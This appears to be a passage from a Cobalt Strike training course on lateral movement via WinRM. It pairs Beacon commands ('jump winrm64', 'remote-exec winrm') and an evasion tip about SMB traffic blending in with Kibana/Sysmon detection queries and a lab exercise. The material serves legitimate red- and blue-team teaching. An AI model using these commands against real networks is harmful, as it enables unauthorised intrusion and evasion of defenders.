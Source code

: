 The `winrm` and `winrm64` methods can be used as appropriate for 32 and 64-bit targets. There are lots of different ways to determine the architecture of a remote system - one example is to use the `Get-WmiObject` PowerShell cmdlet.
```shell
beacon> getuid
[*] You are DEV\bfarmer

beacon> remote-exec winrm srv-1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture
64-bit
```

When moving laterally between targets, I recommend the SMB Beacon. The SMB protocol is used extensively in a Windows environment, so this traffic blends in very well.
```shell
beacon> jump winrm64 srv-1 smb
[+] established link to child beacon: 10.10.17.25
```

WinRM will return a high integrity Beacon running as the user with which you're interacting with the remote machine as.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/53efcc19-6492-48c7-9dde-0051890f83a2)

There are multiple steps to this technique that we leverage to build a detection mechanism.  We can look for **egress** network connections with a destination port of **5985**.
```shell
event.module : sysmon and event.type : connection and network.direction : egress and destination.port : 5985
```


There's the process start event for `wsmprovhost.exe` (with an `-Embedding` parameter in the command line arguments).
```shell
event.module : sysmon and event.type : process_start and process.command_line : "C:\\Windows\\system32\\wsmprovhost.exe -Embedding"
```

PowerShell logging will also provide the script block and/or transactional log, which tells us exactly what code/commands were executed.  Use the `process.pid` field from the previous query to find its associated script block.
```shell
event.module : powershell and winlog.process.pid: 2984
```

The size of the Beacon PowerShell payload is too large to fit into a single log, so in each message you'll see "Creating Scriptblock text (X of Y)".  Each log can be correlated with the `script_block_id` field, which is a GUID.

To automate this, the Security App has a Rule entitled "WinRM Remote Code Execution".  It uses Event Query Language (EQL) which is great for finding relationships between different events.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/71ff3734-03c0-44d3-afd4-932c7a5b7b05)

>Move laterally to SRV-1 using WinRM and investigate the logs in Kibana.

